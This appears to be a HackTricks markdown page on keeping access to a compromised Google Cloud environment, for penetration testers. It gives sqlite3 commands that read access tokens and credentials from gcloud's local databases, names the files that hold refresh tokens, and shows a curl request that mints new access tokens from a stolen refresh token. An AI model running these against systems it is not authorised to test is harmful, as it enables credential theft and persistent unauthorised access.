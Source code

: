 # GCP - Non-svc Persistance

{% hint style="success" %}


Learn & practice AWS Hacking:<img src="../../../.gitbook/assets/image (1).png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../../../.gitbook/assets/image (1).png" alt="" data-size="line">\
Learn & practice GCP Hacking: <img src="../../../.gitbook/assets/image (2).png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="../../../.gitbook/assets/image (2).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details><summary>Support HackTricks</summary></details>
{% endhint %}

These are useful techniques once, somehow, you have compromised some GCP credentials or machine running in a GCP environment.

## Token Hijacking

### Authenticated User Tokens

To get the **current token** of a user you can run:

{% code overflow="wrap" %}
```bash
sqlite3 $HOME/.config/gcloud/access_tokens.db "select access_token from access_tokens where account_id='<email>';"
```
{% endcode %}

Check in this page how to **directly use this token using gcloud**:

{% embed url="https://book.hacktricks.xyz/pentesting-web/ssrf-server-side-request-forgery/cloud-ssrf#id-6440-1" %}

To get the details to **generate a new access token** run:

{% code overflow="wrap" %}
```bash
sqlite3 $HOME/.config/gcloud/credentials.db "select value from credentials where account_id='<email>';"
```
{% endcode %}

It's also possible to find refresh tokens in **`$HOME/.config/gcloud/application_default_credentials.json`** and in **`$HOME/.config/gcloud/legacy_credentials/*/adc.json`**.

To get a new refreshed access token with the **refresh token**, client ID, and client secret run:

{% code overflow="wrap" %}
```bash
curl -s --data client_id=<client_id> --data client_secret=<client_secret> --data grant_type=refresh_token --data refresh_token=<refresh_token> --data scope="https://www.googleapis.com/auth/cloud-platform https://www.googleapis.com/auth/accounts.reauth" https://www.googleapis.com/oauth2/v4/token
```
{% endcode %}

The refresh tokens validity can be managed in **Admin** > **Security** > **Google Cloud session control**, and by default it's set to 16h although it can be set to never expire:
